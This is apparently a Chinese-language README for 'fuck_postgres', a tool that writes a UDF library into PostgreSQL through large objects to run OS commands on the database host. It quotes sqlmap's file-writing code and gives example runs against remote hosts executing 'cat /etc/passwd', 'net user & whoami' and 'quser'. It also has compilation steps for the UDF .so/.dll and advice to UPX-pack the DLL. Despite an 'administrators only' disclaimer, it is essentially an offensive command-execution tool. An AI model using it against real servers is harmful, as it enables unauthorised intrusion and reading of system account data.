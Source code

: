 # fuck_postgres

### 前言

PostgreSQL在国外的流行程度不亚于MySQL，简称postgres。比如你kaili linux上的Metasploit数据库服务使用的就是PostgreSQL。

fuck_postgres不是什么黑客攻击工具，他并不是要去fuck什么，只用于便捷地使用PostgreSQL自定义函数来执行系统命令，适用于数据库管理员知道postgres密码却不知道ssh或RDP密码的时候在服务器执行系统命令。

一切攻击都是违法行为，非管理员请不要。。。使用此工具的一切违法行为与本人无关。

经测试，sqlmap上对于postgres的--os-shell无效，so文件和dll文件也有问题，语句略坑，所以我抽时间写一个，方便各位“管理员”。
sqlmap该模块的写文件语句详见filesystem.py:
```
def stackedWriteFile(self, wFile, dFile, fileType, forceCheck=False):
	wFileSize = os.path.getsize(wFile)
	content = open(wFile, "rb").read()

	self.oid = randomInt()
	self.page = 0

	self.createSupportTbl(self.fileTblName, self.tblField, "text")

	debugMsg = "create a new OID for a large object, it implicitly "
	debugMsg += "adds an entry in the large objects system table"
	logger.debug(debugMsg)

	# References:
	# http://www.postgresql.org/docs/8.3/interactive/largeobjects.html
	# http://www.postgresql.org/docs/8.3/interactive/lo-funcs.html

	inject.goStacked("SELECT lo_unlink(%d)" % self.oid)
	inject.goStacked("SELECT lo_create(%d)" % self.oid)
	inject.goStacked("DELETE FROM pg_largeobject WHERE loid=%d" % self.oid)

	for offset in xrange(0, wFileSize, LOBLKSIZE):
		fcEncodedList = self.fileContentEncode(content[offset:offset + LOBLKSIZE], "base64", False)
		sqlQueries = self.fileToSqlQueries(fcEncodedList)

		for sqlQuery in sqlQueries:
			inject.goStacked(sqlQuery)

		inject.goStacked("INSERT INTO pg_largeobject VALUES (%d, %d, DECODE((SELECT %s FROM %s), 'base64'))" % (self.oid, self.page, self.tblField, self.fileTblName))
		inject.goStacked("DELETE FROM %s" % self.fileTblName)

		self.page += 1

	debugMsg = "exporting the OID %s file content to " % fileType
	debugMsg += "file '%s'" % dFile
	logger.debug(debugMsg)

	inject.goStacked("SELECT lo_export(%d, '%s')" % (self.oid, dFile), silent=True)

	written = self.askCheckWrittenFile(wFile, dFile, forceCheck)

	inject.goStacked("SELECT lo_unlink(%d)" % self.oid)

	return written
```

filesystem.py line65，是将dll文件base64编码解码，整个写入到pg_largeobject的一个page，在linux某些版本一定会报错的。 每page容量为4096字节，如果是hex，只能容纳2kb的数据。

##### 工具特点：

> 1. 不限平台，可用于管理windows和linux上的postgres
> 2. 不限版本，udf有效版本内可自行添加库文件到工具目录
> 3. hex+分段写入large obj，无page数据过大问题
> 4. 。。。


#### USAGE

```
usage: fuck_postgres [-h] [-a HOST] [-o PORT] [-u USER] [-p PASSWD]
                     [-d DATABASE] [-e EXECUTE]

optional arguments:
  -h, --help            show this help message and exit
  -a HOST, --host HOST  pgsql server ip
  -o PORT, --port PORT  pgsql Port
  -u USER, --user USER  pgsql UserName
  -p PASSWD, --passwd PASSWD
                        pgsql password
  -d DATABASE, --database DATABASE
                        pgsql database
  -e EXECUTE, --execute EXECUTE
                        command for UDF to execute
```

##### 演示

管理PostgreSQL 9.2.24 running on linux 64：

```
./fuck_postgres -a 192.168.0.30 -u postgres -p postgresu -e "cat /etc/passwd"
```

![linux](./pic/linux.png)

```
./fuck_postgres -a 192.168.0.30 -u postgres -p postgres -e "net user & whoami"
```


![whoami](./pic/whoami.png)

管理PostgreSQL 8.2.21 running on windows 32：

```
fuck_postgres.exe -a 192.168.0.30 -u postgres -p postgres -e "quser & net user & whoami"
```

![win](./pic/win.png)

```
fuck_postgres.exe -a 192.168.0.47 -u postgres -p postgres -e "ls -al"
```

![win2](./pic/win2.png)

##### 暂时收录了以下版本postgres的库文件：

![tree](./pic/tree.png)

各版本源码地址：`https://www.postgresql.org/ftp/source`

##### 以下来自@zcgonvh（https://www.t00ls.net/thread-30179-1-1.html）

我在拜读前辈文章时，叹服前辈对待技术研究的态度。

udf源文件在此(https://github.com/sqlmapproject/udfhack/)

在 linux 编译so文件简单许多，只需要一条命令： 
```
gcc sys_eval.c -shared -fPIC -I$PGSRC/include/server -o /tmp/8.2_x64.so 
```
其中$PGSRC 为 postgres 源码的路径或安装路径。 

windows上编写 postgres 的 UDF 需要引用其提供的头文件，在 windows 下这些头文件的位置为： 

`%PGDIR%\include `
其中`%PGDIR%`为 postgres 的安装路径 而需要引用的头文件目录并不仅仅只有这个，以下两个目录也是必须的： 

```
%PGDIR%\include\server 
%PGDIR%\include\server\port\win32 
```
这三个路径都需要加到工程的头文件目录列表中。 
同时，需要将 `%PGDIR%\lib `
添加至 lib 文件目录列表中。  
在编译时，必须使用 vs 进行编译，使用 vc6 编译会失败（原因未知）。 
同时也不能使用 release 模式生成，release 的某个选项会导致编译出的 dll 不能正常使用（vs2008 出现此情况，其余版本未测试）。 
为了防止对方未安装 vc 运行库，务必将 配置属性->C/C++->代码生成 中的 代码生成 选项修改为多
线程/MT，以保证在任何情况下均能够正常运行。 
最后，为了尽可能的减小生成文件体积，需要修改 配置属性->链接器 中以下几个参数： 
清单文件->生成清单，修改为否 调试->生成调试信息，修改为否 
优化->引用，修改为是 
优化->启用 COMDAT 折叠，修改为是  
在 vs2008 下使用以上设置，编译成功。 另：建议将生成的动态链接库文件使用 UPX 进行压缩，这样可以有效地减少文件体积。UPX 的下载地
址为： 
http://upx.sourceforge.net/#downloadupx  



欢迎有vs环境的童鞋编译提交新的库文件。

##### 参考鸣谢：@zcgonvh @anlfi @bt2312 @Catchermana
